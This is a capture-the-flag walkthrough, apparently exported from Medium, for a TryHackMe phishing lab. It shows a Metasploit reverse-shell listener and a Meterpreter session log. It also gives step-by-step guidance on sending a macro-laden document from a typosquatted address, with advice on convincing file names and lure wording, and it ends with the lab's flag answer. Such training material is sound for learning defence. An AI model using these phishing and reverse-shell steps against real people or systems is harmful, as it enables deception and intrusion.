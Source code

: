 View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

\[\*\] Started reverse TCP handler on CONNECTION\_IP:8888

### Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

*   Email: `info@socnas.thm`
*   Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting,” where attackers create domain names that are nearly identical to legitimate ones in order to trick victims. On the AttackBox, start the Firefox web browser and head to [http://MACHINE\_IP.](http://MACHINE_IP.) Use the above credentials to log in.

Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Changing the name to something more convincing, such as `invoice.docm` or `receipt.docm` might be a good idea. Also, write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document. **Note:** You can use CTRL+H on the file upload pop-up to be able to see the `.msf4` directory where our email attachment is located.

### Exploitation

If everything works out, you will get a reverse shell after about 2 minutes. You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.

AttackBox Terminal

msf6 exploit(multi/handler) > exploit

\[\*\] Started reverse TCP handler on CONNECTION\_IP:8888   
\[\*\] Sending stage (176198 bytes) to 10.10.103.92  
\[\*\] Meterpreter session 1 opened (CONNECTION\_IP:8888 -> 10.10.103.92:52536) at 2024-11-24 16:37:47 +0300  
meterpreter > cd c:/users/Administrator/Desktop  
meterpreter > ls  
\[...\]  
meterpreter >

![](https://cdn-images-1.medium.com/max/600/1*ryeeGzaQD2H2vtBhspfkdA.png)

![](https://cdn-images-1.medium.com/max/600/1*Fp_txA895TAHPgod3O2-1Q.png)

- - -

Answer the questions below

What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?

> THM{PHISHING\_CHRISTMAS}

By [Moataz Osama](https://medium.com/@mezo512) on [January 2, 2025](https://medium.com/p/dab39a13f964).

[Canonical link](https://medium.com/@mezo512/advent-of-cyber-2024-thm-day-10-phishing-dab39a13f964)

Exported from [Medium](https://medium.com) on August 26, 2025.